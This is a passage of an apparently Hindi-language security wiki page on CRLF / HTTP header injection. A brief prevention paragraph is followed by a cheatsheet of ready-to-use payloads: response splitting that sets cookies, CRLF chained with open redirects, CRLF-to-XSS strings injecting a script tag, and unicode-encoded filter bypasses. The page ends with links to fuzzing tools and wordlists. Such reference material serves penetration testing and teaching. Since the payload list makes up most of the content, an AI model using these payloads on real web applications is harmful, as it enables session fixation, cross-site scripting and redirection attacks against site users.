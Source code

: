 ### वेब अनुप्रयोगों में CRLF / HTTP हेडर इंजेक्शन को कैसे रोकें

सबसे अच्छा निवारण तकनीक यह है कि प्रतिक्रिया हेडर में सीधे उपयोगकर्ता इनपुट का उपयोग न करें। यदि यह संभव नहीं है, तो आपको हमेशा CRLF विशेष वर्णों को एनकोड करने के लिए एक फ़ंक्शन का उपयोग करना चाहिए। एक अच्छा वेब अनुप्रयोग सुरक्षा अच्छा अभ्यास है कि आप अपनी प्रोग्रामिंग भाषा को एक संस्करण में अपडेट करें जो CR और LF को HTTP हेडर सेट करने वाले फ़ंक्शनों में इंजेक्शन करने की अनुमति नहीं देता है।

### CHEATSHEET
```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue (Check if the response is setting this cookie)

2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2
• /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2
• /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com

3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
## स्वचालित उपकरण

* [https://github.com/Raghavd3v/CRLFsuite](https://github.com/Raghavd3v/CRLFsuite)
* [https://github.com/dwisiswant0/crlfuzz](https://github.com/dwisiswant0/crlfuzz)

## ब्रूट-फोर्स पता लेने की सूची

* [https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/crlf.txt](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/crlf.txt)

## संदर्भ

* [**https://www.acunetix.com/websitesecurity/crlf-injection/**](https://www.acunetix.com/websitesecurity/crlf-injection/)
* [**https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning**](https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning)

<img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">
